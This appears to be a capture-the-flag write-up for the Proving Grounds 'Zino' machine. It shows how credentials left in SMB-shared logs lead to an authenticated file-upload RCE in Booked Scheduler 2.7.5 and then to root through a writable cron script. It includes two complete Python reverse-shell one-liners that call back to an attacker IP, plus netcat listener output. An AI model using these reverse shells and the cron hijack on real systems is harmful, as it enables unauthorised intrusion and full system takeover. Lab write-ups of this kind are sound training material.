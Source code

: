 ```yaml
---
title: "Proving grounds Practice: Zino"
layout: post
date: 2024-03-07 02:00
categories: writeup
---
```


Proving grounds Practice - Zino CTF writeup.

# NMAP

```text
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3306/tcp open  mysql?
8003/tcp open  http        Apache httpd 2.4.38
```

## 139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
## 445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

Found smb share.

```sh
	Sharename       Type      Comment
	---------       ----      -------
	zino            Disk      Logs
	print$          Disk      Printer Drivers
	IPC$            IPC       IPC Service (Samba 4.9.5-Debian)
Reconnecting with SMB1 for workgroup listing.
```

```sh
naveenj@hackerspace:[10:16]~/proving_grounds/Zino$ smbclient //192.168.201.64/zino -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Jul  9 15:11:49 2020
  ..                                  D        0  Tue Apr 28 09:38:53 2020
  .bash_history                       H        0  Tue Apr 28 11:35:28 2020
  error.log                           N      265  Tue Apr 28 10:07:32 2020
  .bash_logout                        H      220  Tue Apr 28 09:38:53 2020
  local.txt                           N       33  Wed Oct 25 10:11:40 2023
  .bashrc                             H     3526  Tue Apr 28 09:38:53 2020
  .gnupg                             DH        0  Tue Apr 28 10:17:02 2020
  .profile                            H      807  Tue Apr 28 09:38:53 2020
  misc.log                            N      424  Tue Apr 28 10:08:15 2020
  auth.log                            N      368  Tue Apr 28 10:07:54 2020
  access.log                          N     5464  Tue Apr 28 10:07:09 2020
  ftp
```

Downloaded local.txt file.

auth.log

```sh
Apr 28 08:16:54 zino groupadd[1044]: new group: name=peter, GID=1001
Apr 28 08:16:54 zino useradd[1048]: new user: name=peter, UID=1001, GID=1001, home=/home/peter, shell=/bin/bash
Apr 28 08:17:01 zino passwd[1056]: pam_unix(passwd:chauthtok): password changed for peter
Apr 28 08:17:01 zino CRON[1058]: pam_unix(cron:session): session opened for user root by (uid=0)
```

misc.log

```sh
naveenj@hackerspace:[10:32]~/proving_grounds/Zino$ cat misc.log 
Apr 28 08:39:01 zino systemd[1]: Starting Clean php session files...
Apr 28 08:39:01 zino CRON[2791]: (CRON) info (No MTA installed, discarding output)
Apr 28 08:39:01 zino systemd[1]: phpsessionclean.service: Succeeded.
Apr 28 08:39:01 zino systemd[1]: Started Clean php session files.
Apr 28 08:39:01 zino systemd[1]: Set application username "admin"
Apr 28 08:39:01 zino systemd[1]: Set application password "adminadmin"
```

## 8003/tcp open  http        Apache httpd 2.4.38

Booked Scheduler v2.7.5 - search for exploit using searchsploit.

Booked Scheduler 2.7.5 - Remote Command Execution (RCE) (Authenticated)   | php/webapps/50594.py

**Credentials**

`admin:adminadmin`

As per the exploit...

- Direct to the below URL and upload reverse shell or remote code execution php file.

`http://192.168.201.64:8003/booked/Web/admin/manage_theme.php`

- Trigger shell at `http://192.168.201.64:8003/booked/Web/custom-favicon.php?cmd=id`.

Python2 reverese shell

```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.232",22));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

- Url encode and send the request.

```sh
naveenj@hackerspace:[10:45]~/proving_grounds/Zino$ nc -lvnp 22
listening on [any] 22 ...
connect to [192.168.45.232] from (UNKNOWN) [192.168.201.64] 51696
$ id
id
```

Initial Foothold Obtained.

## Privilege Escalation


Download and run linpeas using port 8003

```sh
*/3 *   * * *   root    python /var/www/html/booked/cleanup.py
```
Cronjon running every 3 minutes.

**Python2 reverse shell**

```sh
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.232",21));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

Add the reverse shell code to cleanup.py file and wait for 3 minutes to get reverse connection.

```sh
naveenj@hackerspace:[11:13]~/proving_grounds/Zino$ nc -lvnp 21
listening on [any] 21 ...
connect to [192.168.45.232] from (UNKNOWN) [192.168.201.64] 35774
# 
```

**Root Obtained**

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).